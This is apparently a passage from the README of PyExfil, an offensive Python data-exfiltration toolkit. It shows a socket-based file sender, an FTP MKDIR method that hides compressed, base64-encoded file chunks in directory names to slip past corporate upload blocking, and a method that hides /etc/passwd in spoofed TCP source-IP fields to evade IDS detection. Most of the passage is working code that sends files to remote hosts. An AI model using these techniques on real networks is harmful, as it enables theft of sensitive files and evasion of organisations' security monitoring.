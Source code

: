 ```python
    if data.find("-ERR [AUTH] Authentication failed") == -1:
        sys.stderr.write("[-] Did not get confirmations for file content.\n")
        sys.exit(ERR)

    progress = progressbar.ProgressBar()
    for i in progress(range(len(all_data_packets))):
        sock.send("%s;%s" % (i, all_data_packets[i]))
        time.sleep(0.1)
        data = sock.recv(MAX_SIZE)
        if data.find("-ERR [AUTH] Authentication failed") == -1:
            sys.stderr.write("[!] Error seding packet %s.\n" % i)
            break

    sock.send("0000")
    sock.close()
    sys.stdout.write("[+] Finished sending file. Closing socket.\n")
```

#### FTP MKDIR
FTP MKDIR is a technique based on using an FTP server and assuming that the corporate is using an active MiTM to disable file upload. With this in mind, the file is then compressed using `zlib` and base64 encoded (to be ASCII representable) and then split into chunks. Each chunk is then made the name of a directory using MKDIR command (which is not a file upload and should be enabled).
It can be used in the following manner:

```python
from pyexfil.network.FTP.ftp_exfil import FTPExfiltrator
# Port is by default 21, but can be changed with 'port=2121'
# Credentials are () but can be added with: creds=('user','pass')
# TLS is disabled by default but could be added with tls=True
FTPexf = FTPExfiltrator(server="10.211.55.15", file2exfil="/bin/bash")
FTPexf.get_file_chunks()
FTPexf.build_final_chunks()
FTPexf.send_chunks()
```

```python
from pyexfil.network.FTP.ftp_exfil import GetContent
# Directory argument can be added with: dir="/home/user/directory"
FTPHand = GetContent()
FTPHand.get_file()
```

#### Source IP Based Exfiltration

Will take a file and attempt to exfiltrate it on the source IP field in a TCP/IP packet. This method is slow, and depending on the configuration of the IDSs might trigger more alerts or none at all. We figured out it worked in a lot of our cases although it was relatively slow. It is written poorly and will not even support exfiltration of two files at the same time and will not make up for integrity issues. We welcome contributors here.

Exfiltration
```python
from pyexfil.network.SpoofIP import spoofIPs_client

_send(file_path="/etc/passwd", to="127.0.0.1")
```
